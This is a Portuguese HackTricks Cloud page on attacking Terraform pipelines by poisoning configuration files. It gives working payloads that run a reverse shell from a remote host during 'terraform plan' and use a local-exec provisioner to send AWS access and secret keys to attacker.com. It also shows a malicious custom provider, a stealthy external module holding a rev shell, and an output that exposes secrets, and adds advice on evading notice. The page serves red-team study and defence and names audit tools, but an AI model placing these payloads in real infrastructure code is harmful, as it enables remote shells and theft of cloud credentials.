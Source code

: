 # Segurança do Terraform

<details>

<summary><strong>Aprenda hacking no AWS do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga**-me no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Informações Básicas

HashiCorp Terraform é uma **ferramenta de infraestrutura como código** que permite definir recursos **na nuvem e locais** em arquivos de configuração legíveis por humanos que você pode versionar, reutilizar e compartilhar. Você pode então usar um fluxo de trabalho consistente para provisionar e gerenciar toda a sua infraestrutura ao longo do seu ciclo de vida. Terraform pode gerenciar componentes de baixo nível como computação, armazenamento e recursos de rede, bem como componentes de alto nível como entradas de DNS e recursos de SaaS.

### Como o Terraform funciona?

Terraform cria e gerencia recursos em plataformas de nuvem e outros serviços por meio de suas interfaces de programação de aplicativos (APIs). Provedores permitem que o Terraform trabalhe com praticamente qualquer plataforma ou serviço com uma API acessível.

![](<../.gitbook/assets/image (33).png>)

HashiCorp e a comunidade Terraform já escreveram **mais de 1700 provedores** para gerenciar milhares de diferentes tipos de recursos e serviços, e esse número continua a crescer. Você pode encontrar todos os provedores publicamente disponíveis no [Registro do Terraform](https://registry.terraform.io/), incluindo Amazon Web Services (AWS), Azure, Google Cloud Platform (GCP), Kubernetes, Helm, GitHub, Splunk, DataDog e muitos outros.

O fluxo de trabalho central do Terraform consiste em três etapas:

* **Escrever:** Você define recursos, que podem estar em múltiplos provedores de nuvem e serviços. Por exemplo, você pode criar uma configuração para implantar uma aplicação em máquinas virtuais em uma rede Virtual Private Cloud (VPC) com grupos de segurança e um balanceador de carga.
* **Planejar:** Terraform cria um plano de execução descrevendo a infraestrutura que será criada, atualizada ou destruída com base na infraestrutura existente e na sua configuração.
* **Aplicar:** Com aprovação, Terraform executa as operações propostas na ordem correta, respeitando quaisquer dependências de recursos. Por exemplo, se você atualizar as propriedades de um VPC e mudar o número de máquinas virtuais nesse VPC, Terraform recriará o VPC antes de escalar as máquinas virtuais.

![](<../.gitbook/assets/image (81).png>)

### Terraform Enterprise

Terraform Enterprise permite que você **execute comandos** como `terraform plan` ou `terraform apply` remotamente em uma **versão auto-hospedada do Terraform Cloud**. Portanto, se você encontrar a **chave API** para acessar esse servidor Terraform, você pode **comprometê-lo**.\
Para mais informações, confira:

{% content-ref url="broken-reference" %}
[Link quebrado](broken-reference)
{% endcontent-ref %}

## Laboratório Terraform

Basta instalar o terraform no seu computador.

Aqui você tem um [guia](https://learn.hashicorp.com/tutorials/terraform/install-cli) e aqui você tem a [melhor maneira de baixar o terraform](https://www.terraform.io/downloads).

## RCE no Terraform

Terraform **não possui uma plataforma expondo uma página web ou um serviço de rede** que possamos enumerar, portanto, a única maneira de comprometer o terraform é **ser capaz de adicionar/modificar arquivos de configuração do terraform**.

No entanto, o terraform é um componente **muito sensível** para comprometer porque terá **acesso privilegiado** a diferentes locais para funcionar corretamente.

A principal maneira de um atacante ser capaz de comprometer o sistema onde o terraform está rodando é **comprometer o repositório que armazena as configurações do terraform**, porque em algum momento elas serão **interpretadas**.

Na verdade, existem soluções por aí que **executam terraform plan/apply automaticamente após a criação de um PR**, como o **Atlantis**:

{% content-ref url="atlantis-security.md" %}
[atlantis-security.md](atlantis-security.md)
{% endcontent-ref %}

Se você conseguir comprometer um arquivo terraform, existem diferentes maneiras de realizar RCE quando alguém executar `terraform plan` ou `terraform apply`.

### Terraform plan

Terraform plan é o **comando mais usado** no terraform e desenvolvedores/soluções usando terraform o chamam o tempo todo, então a **maneira mais fácil de obter RCE** é garantir que você envenene um arquivo de configuração do terraform que executará comandos arbitrários em um `terraform plan`.

#### Usando um provedor externo

Terraform oferece o [`external` provider](https://registry.terraform.io/providers/hashicorp/external/latest/docs) que fornece uma maneira de interagir entre o Terraform e programas externos. Você pode usar a fonte de dados `external` para executar código arbitrário durante um `plan`.

Injetar em um arquivo de configuração do terraform algo como o seguinte executará um rev shell ao executar `terraform plan`:
```javascript
data "external" "example" {
program = ["sh", "-c", "curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh"]
}
```
#### Usando um provedor personalizado

Qualquer um pode escrever um [provedor personalizado](https://learn.hashicorp.com/tutorials/terraform/provider-setup) e publicá-lo no [Terraform Registry](https://registry.terraform.io/). Você também pode tentar puxar um provedor personalizado de um registro privado.

É isso:

* escreva um provedor personalizado que execute algum código malicioso (como exfiltrar credenciais ou dados de clientes)
* publique-o no Terraform Registry
* adicione o provedor ao código Terraform em uma branch de funcionalidade
* abra um PR para a branch de funcionalidade
```javascript
terraform {
required_providers {
evil = {
source  = "evil/evil"
version = "1.0"
}
}
}

provider "evil" {}
```
```markdown
Uma vez que o provider será puxado durante o `init` e executará algum código durante o `plan`, você tem execução arbitrária de código.

Você pode encontrar um exemplo em [https://github.com/rung/terraform-provider-cmdexec](https://github.com/rung/terraform-provider-cmdexec)

#### Usando uma referência externa

Ambas as opções mencionadas são úteis, mas não muito discretas (a segunda é mais discreta, mas mais complexa que a primeira). Você pode realizar esse ataque de uma maneira ainda mais **discreta**, seguindo estas sugestões:

* Em vez de adicionar o rev shell diretamente no arquivo terraform, você pode **carregar um recurso externo** que contém o rev shell:
```
```javascript
module "not_rev_shell" {
source = "git@github.com:carlospolop/terraform_external_module_rev_shell//modules"
}
```
Você pode encontrar o código rev shell em [https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules](https://github.com/carlospolop/terraform_external_module_rev_shell/tree/main/modules)

* No recurso externo, use o recurso **ref** para ocultar o **código terraform rev shell em um branch** dentro do repositório, algo como: `git@github.com:carlospolop/terraform_external_module_rev_shell//modules?ref=b401d2b`

### Terraform Apply

O Terraform apply será executado para aplicar todas as alterações, você também pode abusar dele para obter RCE injetando **um arquivo Terraform malicioso com** [**local-exec**](https://www.terraform.io/docs/provisioners/local-exec.html)**.**\
Você só precisa garantir que algum payload como os seguintes termine no arquivo `main.tf`:
```json
// Payload 1 to just steal a secret
resource "null_resource" "secret_stealer" {
provisioner "local-exec" {
command = "curl https://attacker.com?access_key=$AWS_ACCESS_KEY&secret=$AWS_SECRET_KEY"
}
}

// Payload 2 to get a rev shell
resource "null_resource" "rev_shell" {
provisioner "local-exec" {
command = "sh -c 'curl https://reverse-shell.sh/8.tcp.ngrok.io:12946 | sh'"
}
}
```
Siga as **sugestões da técnica anterior** para realizar este ataque de uma **maneira mais discreta usando referências externas**.

## Vazamento de Segredos

Você pode ter **valores secretos usados pelo terraform revelados** executando `terraform apply` ao adicionar ao arquivo terraform algo como:
```json
output "dotoken" {
value = nonsensitive(var.do_token)
}
```
## Ferramentas de Auditoria

* [**tfsec**](https://github.com/aquasecurity/tfsec): tfsec utiliza análise estática do seu código terraform para identificar possíveis má configurações.
* [**terascan**](https://github.com/tenable/terrascan): Terrascan é um analisador de código estático para Infraestrutura como Código.

## Referências

* [Segurança Atlantis](atlantis-security.md)
* [https://alex.kaskaso.li/post/terraform-plan-rce](https://alex.kaskaso.li/post/terraform-plan-rce)

<details>

<summary><strong>Aprenda AWS hacking do zero ao herói com</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Outras formas de apoiar o HackTricks:

* Se você quer ver sua **empresa anunciada no HackTricks** ou **baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**material oficial PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**A Família PEASS**](https://opensea.io/collection/the-peass-family), nossa coleção de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Junte-se ao grupo** 💬 [**Discord**](https://discord.gg/hRep4RUj7f) ou ao grupo [**telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios github do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
